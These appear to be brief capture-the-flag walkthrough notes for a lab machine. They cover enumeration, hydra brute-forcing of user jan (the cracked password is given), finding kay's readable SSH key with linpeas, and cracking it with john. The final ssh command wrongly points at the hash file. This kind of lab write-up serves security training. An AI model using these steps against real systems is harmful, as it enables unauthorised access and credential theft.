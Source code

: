 text files at /development mention 'struts stuff' (Apache)

tomcat running on :8080

enum4linux finds users jan and kay

hydra jan rockyou armando

linpeas finds kays private key is readable, grab it, chmod 600

```bash
sudo john --wordlist=/opt/wordlists/rockyou.txt --format=SSH kay_rsa.john
ssh -i kay_rsa.john $IP
```